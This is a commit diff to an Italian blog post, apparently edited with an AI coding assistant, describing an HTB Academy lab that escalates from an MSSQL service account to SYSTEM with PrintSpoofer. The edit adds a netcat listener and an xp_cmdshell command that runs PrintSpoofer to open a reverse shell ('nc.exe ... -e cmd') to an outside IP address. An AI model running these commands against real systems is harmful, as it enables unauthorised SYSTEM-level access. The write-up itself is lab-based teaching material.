

Before and after one commit to salvatoreluongo/blog, a Jekyll site: the page built from _posts/2026-10-28-seimpersonate-privilege-escalation-system.md, in a window 1280 px wide and 1400 px high, scrolled down 6135 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
SeImpersonate: link modulo HTB, motivazione PrintSpoofer, listener+esecuzione uniti, via arsenale/approfondimento; nuova copertina; icone social piu piccole su mobile
Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01FB3ghLAwhiJrxPupN6Eiuj

````diff
--- a/_posts/2026-10-28-seimpersonate-privilege-escalation-system.md
+++ b/_posts/2026-10-28-seimpersonate-privilege-escalation-system.md
@@ -13,7 +13,7 @@ A volte basta ottenere l'esecuzione di comandi nel contesto di un account di ser
 
 È un diritto legittimo, utilizzato da numerosi servizi Windows per operare temporaneamente con l'identità degli utenti autenticati. Tuttavia, quando viene combinato con un meccanismo di impersonazione sfruttabile, può consentire a un attaccante di passare da un account di servizio a `NT AUTHORITY\SYSTEM`.
 
-In questo laboratorio di HTB Academy ho ricostruito proprio questa catena:
+Per la dimostrazione ho utilizzato una macchina del modulo **[Windows Privilege Escalation di HTB Academy](https://academy.hackthebox.com/module/details/67)**, in cui ho ricostruito proprio questa catena:
 
 **Accesso MSSQL → esecuzione di comandi → identificazione di SeImpersonatePrivilege → PrintSpoofer → SYSTEM.**
 
@@ -102,26 +102,13 @@ La presenza di `Enabled` non garantisce che l'attacco funzionerà. Indica però
 
 ## 4. La famiglia Potato: dal privilegio al vettore di escalation
 
-Nel mondo della Windows Privilege Escalation esiste una famiglia di tecniche comunemente conosciuta come **Potato**. Il principio comune è abusare di determinati meccanismi di autenticazione o comunicazione tra processi per ottenere un contesto di sicurezza più privilegiato. Gli strumenti, però, non sono tutti intercambiabili.
+Nel mondo della Windows Privilege Escalation esiste una famiglia di tecniche comunemente conosciuta come **Potato**. Il principio comune è abusare di determinati meccanismi di autenticazione o comunicazione tra processi per ottenere un contesto di sicurezza più privilegiato. Gli strumenti, però, non sono tutti intercambiabili:
 
-**JuicyPotato** è una delle tecniche storiche più conosciute. Sfrutta particolari comportamenti legati a COM/DCOM e NTLM per ottenere token privilegiati utilizzabili in un'escalation. La tecnica originale incontra limitazioni importanti a partire da Windows 10 versione 1809 e Windows Server 2019.
+- **JuicyPotato** — storico, sfrutta COM/DCOM e NTLM, ma **non funziona** da Windows 10 1809 / Windows Server 2019 in poi;
+- **RoguePotato** — supera alcune di quelle limitazioni con un meccanismo basato su RPC;
+- **PrintSpoofer** — sviluppato da itm4n, sfrutta il servizio **Print Spooler** di Windows e le **named pipe**; resta efficace anche sui sistemi recenti.
 
-**RoguePotato** è una tecnica successiva che affronta alcune delle limitazioni incontrate dai precedenti attacchi basati sull'impersonazione. Utilizza un meccanismo differente che coinvolge l'autenticazione e la comunicazione RPC.
-
-**PrintSpoofer** è lo strumento che utilizzo nel laboratorio. Sviluppato da itm4n, sfrutta un'interazione con il servizio Windows Print Spooler per ottenere una connessione privilegiata attraverso una named pipe. La sua efficacia dipende dalla configurazione del sistema e dalla disponibilità del meccanismo utilizzato.
-
-### Perché ho scelto PrintSpoofer?
-
-Nel laboratorio gli strumenti necessari erano già disponibili nella directory `C:\tools`. Ne verifico il contenuto attraverso SQL Server:
-
-```text
-SQL> xp_cmdshell dir C:\tools
-```
-
-![Contenuto della directory C:\tools con PrintSpoofer, JuicyPotato e RoguePotato](/blog/assets/img/seimpersonate/02-arsenal.png)
-*Figura 2 — Gli strumenti predisposti nell'ambiente HTB Academy. Il sistema del laboratorio utilizza Windows Server 2016; per questa dimostrazione scelgo PrintSpoofer.*
-
-La scelta non dipende semplicemente dal fatto che PrintSpoofer sia più recente. Voglio osservare una tecnica che utilizza le named pipe e il servizio di stampa per mostrare concretamente come l'impersonazione possa diventare un problema di sicurezza.
+Per questa dimostrazione ho scelto **PrintSpoofer** per un motivo preciso: è **affidabile anche sulle versioni moderne di Windows** (dove JuicyPotato è ormai tagliato fuori), è pulito e permette di mostrare con chiarezza *come* una named pipe e un servizio privilegiato trasformino `SeImpersonate` in codice eseguito come SYSTEM. Puoi scaricarlo dal [repository ufficiale di itm4n](https://github.com/itm4n/PrintSpoofer).
 
 ## 5. Come funziona realmente PrintSpoofer?
 
@@ -147,19 +134,19 @@ Arriviamo alla parte pratica. Nel laboratorio abbiamo già verificato tre condiz
 
 Resta da verificare se PrintSpoofer riesce effettivamente a sfruttare il vettore scelto.
 
-### Preparazione della sessione di laboratorio
-
-Per osservare il risultato dell'esecuzione privilegiata, nell'ambiente HTB Academy era stato predisposto un listener Netcat sulla macchina di testing:
+Avvio un **listener** sulla macchina d'attacco, in ascolto sulla porta 8443:
 
 ```bash
 sudo nc -lnvp 8443
 ```
 
-La dimostrazione originale utilizzava PrintSpoofer per avviare, nel contesto privilegiato ottenuto, un processo che stabiliva una sessione di ritorno verso il listener. La verifica tecnica dell'escalation, tuttavia, non dipende dal fatto di utilizzare una reverse shell: ciò che conta è dimostrare l'identità e il contesto del processo creato.
+Poi, dal contesto SQL, eseguo **PrintSpoofer** chiedendogli di aprire — col token SYSTEM impersonato — una reverse shell verso il listener:
 
-### Esecuzione di PrintSpoofer
+```text
+SQL> xp_cmdshell c:\PrintSpoofer.exe -c "c:\nc.exe 10.10.15.132 8443 -e cmd"
+```
 
-Dal contesto SQL viene eseguito PrintSpoofer con l'obiettivo di avviare un processo privilegiato. L'output restituito dallo strumento contiene due messaggi fondamentali:
+L'output dello strumento contiene due messaggi fondamentali:
 
 ```text
 [+] Found privilege: SeImpersonatePrivilege
@@ -167,16 +154,16 @@ Dal contesto SQL viene eseguito PrintSpoofer con l'obiettivo di avviare un proce
 ```
 
 ![Output di PrintSpoofer con il privilegio rilevato e CreateProcessAsUser() OK](/blog/assets/img/seimpersonate/03-printspoofer.png)
-*Figura 3 — PrintSpoofer individua SeImpersonatePrivilege e segnala che la creazione del processo è riuscita.*
+*Figura 2 — PrintSpoofer individua SeImpersonatePrivilege e segnala che la creazione del processo è riuscita.*
 
-Il primo messaggio conferma che il processo possiede il privilegio richiesto. Il secondo indica che la creazione del nuovo processo attraverso l'API Windows `CreateProcessAsUser()` è riuscita. È un risultato significativo, ma per verificare l'escalation dobbiamo controllare direttamente l'identità del processo ottenuto.
+Il primo messaggio conferma che il processo possiede il privilegio richiesto; il secondo che la creazione del nuovo processo tramite l'API Windows `CreateProcessAsUser()` è riuscita. Per verificare l'escalation controllo direttamente l'identità del processo ottenuto.
 
 ### Verifica finale: whoami
 
-Nella sessione di laboratorio eseguo `whoami` e `hostname`. Il risultato restituisce `nt authority\system` su `WINLPE-SRV01`.
+Sul listener arriva la shell. Eseguo `whoami` e `hostname`: la risposta è `nt authority\system` su `WINLPE-SRV01`.
 
 ![Sessione ottenuta nel laboratorio con output di whoami e hostname](/blog/assets/img/seimpersonate/04-system.png)
-*Figura 4 — La verifica finale conferma l'esecuzione nel contesto NT AUTHORITY\SYSTEM sul sistema WINLPE-SRV01.*
+*Figura 3 — La verifica finale conferma l'esecuzione nel contesto NT AUTHORITY\SYSTEM sul sistema WINLPE-SRV01.*
 
 Abbiamo così dimostrato che l'escalation è riuscita. All'inizio del laboratorio il nostro contesto di esecuzione era `nt service\mssql$sqlexpress01`; alla fine è `nt authority\system`.
 
@@ -260,8 +247,3 @@ La lezione non riguarda lo strumento, ma **il modo in cui Windows gestisce ident
 - [PrintSpoofer — Repository ufficiale di itm4n](https://github.com/itm4n/PrintSpoofer)
 - [Impacket — Repository ufficiale Fortra](https://github.com/fortra/impacket)
 - [Microsoft Sysinternals — Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
-
-<aside class="readalso">
-  <span class="readalso-k">Prossimo approfondimento</span>
-  <a href="#">Windows Access Token: come funzionano privilegi, impersonation token e integrity level</a>
-</aside>
--- a/assets/css/style.css
+++ b/assets/css/style.css
@@ -149,6 +149,7 @@ body.menu-open { overflow: hidden; }
 .share { display: flex; flex-wrap: wrap; gap: 12px; margin: 26px 0 8px; }
 .sh { width: 48px; height: 48px; border-radius: 50%; display: grid; place-items: center; color: #fff; border: 0; cursor: pointer; text-decoration: none; transition: transform .15s; }
 .sh:hover { transform: translateY(-2px); }
+@media (max-width: 600px) { .share { gap: 9px; } .sh { width: 38px; height: 38px; } .sh svg { width: 19px; height: 19px; } }
 .sh-li { background: #0a66c2; } .sh-fb { background: #1877f2; } .sh-x { background: #111; }
 .sh-wa { background: #25d366; } .sh-tg { background: #229ed9; } .sh-copy { background: var(--pill); color: var(--ink); }
 .sh-copy.ok { background: #2e7d32; color: #fff; animation: pop .3s ease; }
````
Also changed, not shown: assets/img/seimpersonate/cover.png.
